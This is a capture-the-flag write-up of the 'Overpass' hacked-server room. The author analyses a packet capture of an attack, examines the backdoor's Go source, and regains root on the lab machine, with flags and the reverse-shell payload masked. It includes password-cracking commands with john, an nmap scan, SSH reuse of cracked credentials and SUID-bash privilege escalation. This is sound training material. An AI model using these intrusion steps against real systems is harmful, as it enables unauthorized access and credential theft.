



Good day. In today's CTF, I analyze a network traffic dump, analyze the backdoor code and access the server after a hack.
Story
Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.
Can you work out how the attacker got in, and hack your way back into Overpass' production server?
Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing CC: Pentesting and Learn Linux as a bare minimum.
md5sum of PCAP file:
11c3b2e9221865580295bc662c35c6dcForensics - Analyse the PCAP
First, check the md5sum of the file.

The checksum matches. You can start analyzing the data. To analyze the network traffic dump, I will use the wireshark.
What was the URL of the page they used to upload a reverse shell?
Opening the network packet dump in wireshark, you can see that the computer with the IP address 192.168.170.145 sent a GET request to the /d*********t/ directory.
{kind=link}
/d*********t/What payload did the attacker use to gain access?
I also noticed that the computer with the IP address 192.168.170.145 uploaded the file using /d*********t/upload.php after sending the POST request. If you look at TCP Stream, you can see what malicious code was uploaded by the attacker to the server.
{kind=link}
<?php exec("********************************************************************************/f")?>What password did the attacker use to privesc?
In order to find out the password with which the attacker used to elevate privileges, I need to find a TCP packet with data. It can be found immediately after the GET HTTP request of the malicious payload with destination to 192.168.170.145
{kind=link}
The attacker did not encrypt his nc connection, so we can view the data of his connection in unencrypted form using Follow TCP Stream.
{kind=link}
password: wh*******************tHow did the attacker establish persistence?
After gaining root privileges, the attacker downloaded the backdoor. Link is a flag.
{kind=link}
https://******.c**/*********/***-*******rUsing the fasttrack wordlist, how many of the system passwords were crackable?
I copied the contents of the shadow file from the network traffic package to the shadow file. Then using john and fasttrack rockyou I managed to crack hashes.
{kind=link}
john --wordlist=/usr/share/wordlists/fasttrack.txt shadow-filejohn --show shadow-fileResearch - Analyse the code
Story: Now that you've found the code for the backdoor, it's time to analyse it.
What's the default hash for the backdoor?
First I will download the backdoor files.
{kind=link}
Now I will view the content of the main.go file using cat
{kind=link}
cat main.goVariable var hash string contains the default hash.
bd*****************************************************************************************************************************e3What's the hardcoded salt for the backdoor?
Hardcoded salt can be found at the end of the code.
{kind=link}
1c3***************************05What was the hash that the attacker used? - go back to the PCAP for this!
If you go back to the network traffic dump, you can see the hash that the attacker used.
{kind=link}
6d05***************************************************************************************************************************edCrack the hash using rockyou and a cracking tool of your choice. What's the password?
In order to crack a hash, I need to combine the hash and the salt.
{kind=link}
Now with john and rockyou wordlist I get the password.
{kind=link}
n********6Attack - Get back in!
Story: Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again. There's flags on the box that Overpass can't afford to lose by formatting the server!
The attacker defaced the website. What message did they leave as a heading?
In order to find out what is written in the header, I will send a GET request to the web server using curl.
{kind=link}
curl machine_ipH*******************nWhat's the user flag?
First scan open ports via nmap.
nmap -A -T5 -p17-10000 machine_ip{kind=link}
After scanning the open ports of the server, I decided to connect via ssh as user james with passwords cracked from the last hash.
{kind=link}
The user.txt file with the user flag will be located in the user's home directory.
{kind=link}
thm{d11****************************7}What's the root flag?
In the home directory of user james, you can find a hidden suid file .suid_bash, apparently this is suid bash. With it I get root.
{kind=link}
ls -la ./.suid_bash -pwhoamiWith cat I view the root flag in /root/root.txt
{kind=link}
cat /root/root.txtthm{d53****************************d}